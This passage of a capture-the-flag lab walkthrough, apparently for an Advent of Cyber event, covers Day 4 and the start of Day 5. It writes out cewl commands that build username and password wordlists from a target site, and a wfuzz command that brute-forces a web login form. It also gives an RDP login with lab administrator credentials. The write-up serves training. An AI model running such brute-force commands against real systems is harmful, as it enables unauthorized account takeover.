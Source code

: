 ## Day 4 - Baby, it's CeWLd outside

**Q1: What is the correct username and password combination? Format username:password**

Generate the username and password lists.
```
cewl -d 0 -m 5 -w usernames.txt http://<IP>/team.php --lowercase
cewl -d 2 -m 5 -w passwords.txt http://<IP> --with-numbers
```

Navigate to the admin portal and attempt to login with any username and password.

Notice the error message: `Please enter the correct credentials`.

Use wfuzz to bruteforce logins.
- Incorrect login attempts will not be displayed

```
wfuzz -c -H "Content-Type: application/x-www-form-urlencoded" -w usernames.txt -w passwords.txt -d "username=FUZZ&password=FUZ2Z" -X POST --hs "Please enter the correct credentials" -u "http://<IP>/login.php"
```

The correct username/password combination will show up in the output.

**Q2: What is the flag?**

Check the email from `kevin@northpole.thm` with the subject `Confidental Message` to get the flag.

<br>

## Day 5 - A Christmas DOScovery: Tapes of Yule-tide Past

RDP to the target machine and double-click on the **DOSBox-X** icon.

```
xfreerdp /size:90% /u:Administrator /p:Passw0rd! /v:<IP>
```

**Q1: How large (in bytes) is the AC2023.BAK file?**

In the DOS prompt, navigate to the **C:\** directory and run the `dir` command and look for the `AC2023.BAK` file.

**Q2: What is the name of the backup program?**

From the DOS prompt, navigate to the **C:\** directory and run the `edit plan.txt` command to see the program's name.

Afterwards, press the following keys to exit and return to the DOS prompt:

```
ALT
f
x
n
```

**Q3: What should the correct bytes be in the backup's file signature to restore the backup properly?**
